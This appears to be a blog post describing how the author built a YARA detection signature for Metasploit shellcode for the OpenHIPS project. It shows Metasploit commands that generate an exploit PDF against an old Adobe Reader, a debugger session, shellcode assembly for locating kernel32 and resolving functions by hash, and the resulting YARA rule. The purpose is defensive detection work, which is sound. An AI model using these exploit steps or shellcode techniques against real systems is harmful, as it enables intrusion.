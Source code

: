 ```yaml
---
layout: post
title: Creating a YARA signature for shellcode
categories: []
tags: []
status: publish
type: post
published: true
---
```

In working on <a href="https://www.assembla.com/wiki/show/openhips/">OpenHIPS</a>, I need to generate <a href="http://code.google.com/p/yara-project/">YARA</a> signatures for shellcode to detect the exploits used against browsers and client applications, like Adobe Reader.  The first thing I did was use <a href="http://www.metasploit.com/">metasploit</a> to generate a "malicious" PDF.  Starting up metasploit 3 on Windows, I tried a couple of exploits before I came across one that worked well, as shown:
{% highlight text %}
msf < use exploit/windows/fileformat/adobe_geticon
msf exploit(adobe_geticon) < set PAYLOAD windows/messagebox
PAYLOAD =< windows/messagebox
msf exploit(adobe_geticon) < exploit
 
[*] Creating 'msf.pdf' file...
[*] Generated output file C:/metasploit/msf3/data/exploits/msf.pdf
[*] Exploit completed, but no session was created.
{% endhighlight %}

This exploit uses a heap spray, so I commented out the code in OpenHIPS to detect large memory usage in my testing.  Next I brought up a Windows XP SP2 VM and installed Adobe 8.1.2 from <a href="http://www.oldapps.com/adobe_reader.php">oldapps.com</a>.  I opened up the `msf.pdf` file with this version of Adobe and after a while (it takes a while to allocate about 700MB for the heap spray), it popped up a little message box.

With the exploited Adobe Reader running, I attached WinDbg to it, and typed in the following in order to find the thread that had spawned the messagebox:
{% highlight text %}
< ~* k
0  Id: 100.54c Suspend: 1 Teb: 7ffdf000 Unfrozen
ChildEBP RetAddr  
0012d8cc 77d493f5 ntdll!KiFastSystemCallRet
0012d904 77d5688a USER32!NtUserWaitMessage+0xc
0012d92c 77d6b7c5 USER32!InternalDialogBox+0xd0
0012dbec 77d6b12b USER32!SoftModalMessageBox+0x938
0012dd3c 77d95fdf USER32!MessageBoxWorker+0x2ba
0012dd94 77d96084 USER32!MessageBoxTimeoutW+0x7a
0012ddc8 77d80598 USER32!MessageBoxTimeoutA+0x9c
0012dde8 77d80550 USER32!MessageBoxExA+0x1b
0012de04 0a11fff2 USER32!MessageBoxA+0x45
WARNING: Frame IP not in any known module. Following frames may be wrong.
...
 
< u 0a11fff2
{% endhighlight %}

The command `~* k` shows a stack backtrace of all the functions for every thread.  I cut out all the other threads.  Then I looked at the assembly code at address `0x0a11fff2` where the `MessageBoxA` call was made from.  I scrolled back up through the assembly instructions, and luckily I knew what I was looking for, because metasploit is open-source, so I can look at the file `C:\metasploit\msf3\modules\payloads\singles\windows\messagebox.rb` and I found the following assembly inside the ruby code interesting because it is searching through memory for the kernel32.dll file, and then looking for a specific function (MessageBoxA).  This looks like a good signature to me.
{% highlight text %}
;get kernel32
	xor ecx,ecx
	mov esi, [fs:ecx + 0x30]
	mov esi, [esi + 0x0C]
	mov esi, [esi + 0x1C]
next_module:
	mov eax, [esi + 0x08]
	mov edi, [esi + 0x20]
	mov esi, [esi]
	cmp [edi + 12*2], cl
	jne next_module
 
	pop ecx
	add ecx,edx
	jmp ecx            ;jmp start_main
 
find_function:
	pushad				;save all registers
	mov ebp, [esp  +  0x24]	;put base address of module that is being loaded in ebp
	mov eax, [ebp  +  0x3c]	;skip over MSDOS header
	mov edx, [ebp  +  eax  +  0x78]	;go to export table and put relative address in edx
	add edx, ebp			;add base address to it.
						;edx = absolute address of export table
	mov ecx, [edx  +  0x18]		;set up counter ECX
						;(how many exported items are in array ?)
	mov ebx, [edx  +  0x20]		;put names table relative offset in ebx
	add ebx, ebp			;add base address to it.
						;ebx = absolute address of names table
 
find_function_loop:
	jecxz  find_function_finished ;if ecx=0, then last symbol has been checked.
						;(should never happen)
						;unless function could not be found
	dec ecx				;ecx=ecx-1
	mov esi,  [ebx  +  ecx  *  4]	;get relative offset of the name associated
						;with the current symbol
						;and store offset in esi
	add esi,  ebp			;add base address.
						;esi = absolute address of current symbol
 
compute_hash:
	xor edi,  edi			;zero out edi
	xor eax,  eax			;zero out eax
	cld					;clear direction flag.
						;will make sure that it increments instead of
						;decrements when using lods*

compute_hash_again:
	lodsb					;load bytes at esi (current symbol name)
						;into al, + increment esi
	test al, al				;bitwise test :
						;see if end of string has been reached
	jz  compute_hash_finished	;if zero flag is set = end of string reached
	ror edi,  0xd			;if zero flag is not set, rotate current
						;value of hash 13 bits to the right
	add edi, eax			;add current character of symbol name
						;to hash accumulator
	jmp compute_hash_again		;continue loop
 
compute_hash_finished:
 
find_function_compare:
	cmp edi,  [esp  +  0x28]	;see if computed hash matches requested hash
						; (at esp+0x28)
						;edi = current computed hash
						;esi = current function name (string)
	jnz find_function_loop		;no match, go to next symbol
	mov ebx,  [edx  +  0x24]	;if match : extract ordinals table
						;relative offset and put in ebx
	add ebx,  ebp			;add base address.
						;ebx = absolute address of ordinals address table
	mov cx,  [ebx  +  2  *  ecx]	;get current symbol ordinal number (2 bytes)
	mov ebx,  [edx  +  0x1c]	;get address table relative and put in ebx
	add ebx,  ebp			;add base address.
						;ebx = absolute address of address table
	mov eax,  [ebx  +  4  *  ecx]	;get relative function offset from its ordinal
						;and put in eax
	add eax,  ebp			;add base address.
						;eax = absolute address of function address
	mov [esp  +  0x1c],  eax	;overwrite stack copy of eax so popad
						;will return function address in eax
find_function_finished:
	popad 				;restore original registers.
						;eax will contain function address
	ret
{% endhighlight %}

Correlating this back to the actual memory in the program, I can see the following:
{% highlight text %}
0a11fef5 31c9            xor     ecx,ecx
0a11fef7 648b7130        mov     esi,dword ptr fs:[ecx+30h]
0a11fefb 8b760c          mov     esi,dword ptr [esi+0Ch]
0a11fefe 8b761c          mov     esi,dword ptr [esi+1Ch]
0a11ff01 8b4608          mov     eax,dword ptr [esi+8]
0a11ff04 8b7e20          mov     edi,dword ptr [esi+20h]
0a11ff07 8b36            mov     esi,dword ptr [esi]
0a11ff09 384f18          cmp     byte ptr [edi+18h],cl
0a11ff0c 75f3            jne     0a11ff01
0a11ff0e 59              pop     ecx
0a11ff0f 01d1            add     ecx,edx
0a11ff11 ffe1            jmp     ecx
0a11ff13 60              pushad
0a11ff14 8b6c2424        mov     ebp,dword ptr [esp+24h]
0a11ff18 8b453c          mov     eax,dword ptr [ebp+3Ch]
0a11ff1b 8b542878        mov     edx,dword ptr [eax+ebp+78h]
0a11ff1f 01ea            add     edx,ebp
0a11ff21 8b4a18          mov     ecx,dword ptr [edx+18h]
0a11ff24 8b5a20          mov     ebx,dword ptr [edx+20h]
0a11ff27 01eb            add     ebx,ebp
0a11ff29 e334            jecxz   0a11ff5f
0a11ff2b 49              dec     ecx
0a11ff2c 8b348b          mov     esi,dword ptr [ebx+ecx*4]
0a11ff2f 01ee            add     esi,ebp
0a11ff31 31ff            xor     edi,edi
0a11ff33 31c0            xor     eax,eax
0a11ff35 fc              cld
0a11ff36 ac              lods    byte ptr [esi]
0a11ff37 84c0            test    al,al
0a11ff39 7407            je      0a11ff42
0a11ff3b c1cf0d          ror     edi,0Dh
0a11ff3e 01c7            add     edi,eax
0a11ff40 ebf4            jmp     0a11ff36
0a11ff42 3b7c2428        cmp     edi,dword ptr [esp+28h]
0a11ff46 75e1            jne     0a11ff29
0a11ff48 8b5a24          mov     ebx,dword ptr [edx+24h]
0a11ff4b 01eb            add     ebx,ebp
0a11ff4d 668b0c4b        mov     cx,word ptr [ebx+ecx*2]
0a11ff51 8b5a1c          mov     ebx,dword ptr [edx+1Ch]
0a11ff54 01eb            add     ebx,ebp
0a11ff56 8b048b          mov     eax,dword ptr [ebx+ecx*4]
0a11ff59 01e8            add     eax,ebp
0a11ff5b 8944241c        mov     dword ptr [esp+1Ch],eax
0a11ff5f 61              popad
0a11ff60 c3              ret
{% endhighlight %}

You always want to use the actual memory signature.  I copied this to a file, and ran the following commands against it in cygwin to get a nice YARA signature:
{% highlight bash %}
$ awk 'BEGIN {FS=" "} {printf "%s", $2}' tmp.txt | sed 's/\([0-9a-f]\{2\}\)/\1
/g'
31 c9 64 8b 71 30 8b 76 0c 8b 76 1c 8b 46 08 8b 7e 20 8b 36 38 4f 18
 75 f3 59 01 d1 ff e1 60 8b 6c 24 24 8b 45 3c 8b 54 28 78 01 ea 8b 4a 18 8b 5a 2
0 01 eb e3 34 49 8b 34 8b 01 ee 31 ff 31 c0 fc ac 84 c0 74 07 c1 cf 0d 01 c7 eb
f4 3b 7c 24 28 75 e1 8b 5a 24 01 eb 66 8b 0c 4b 8b 5a 1c 01 eb 8b 04 8b 01 e8 89
 44 24 1c 61 c3
{% endhighlight %}

This then ends up in my rules.yar file as:
{% highlight text %}
rule shellcodeFindKernel32
{
	meta:
		sourceOrg = "metasploit"
		sourcePath = "msf3\\modules\\payloads\\singles\\windows\\messagebox.rb"
	strings:
		$string = {31 c9 64 8b 71 30 8b 76 0c 8b 76 1c 8b 46 08 8b 7e 20 8b 36 38 4f 18 75 f3 59 01 d1 ff e1 60 8b 6c 24 24 8b 45 3c 8b 54 28 78 01 ea 8b 4a 18 8b 5a 20 01 eb e3 34 49 8b 34 8b 01 ee 31 ff 31 c0 fc ac 84 c0 74 07 c1 cf 0d 01 c7 eb f4 3b 7c 24 28 75 e1 8b 5a 24 01 eb 66 8b 0c 4b 8b 5a 1c 01 eb 8b 04 8b 01 e8 89 44 24 1c 61 c3}
	condition: $string
}
{% endhighlight %}

The next release of OpenHIPS will detect this shellcode, although it will detect the heap spray using up a lot of memory first, or hopefully the instructions used in any nop sled in a heap spray.
